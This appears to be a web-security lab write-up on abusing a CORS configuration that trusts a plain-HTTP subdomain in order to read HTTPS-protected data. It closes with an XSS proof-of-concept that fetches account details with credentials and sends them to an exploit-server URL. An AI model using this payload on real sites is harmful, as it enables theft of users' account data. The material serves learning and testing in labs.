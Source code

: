 # Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

* The victim user makes any plain HTTP request.
*   The attacker injects a redirection to:

    ```
    http://trusted-subdomain.vulnerable-website.com
    ```
* The victim's browser follows the redirect.
*   The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:

    ```
    https://vulnerable-website.com
    ```
*   The victim's browser makes the CORS request, including the origin:

    ```
    http://trusted-subdomain.vulnerable-website.com
    ```
* The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
* The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

**This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.**



#### Proof of Concept via XSS

```html
<script>
    document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
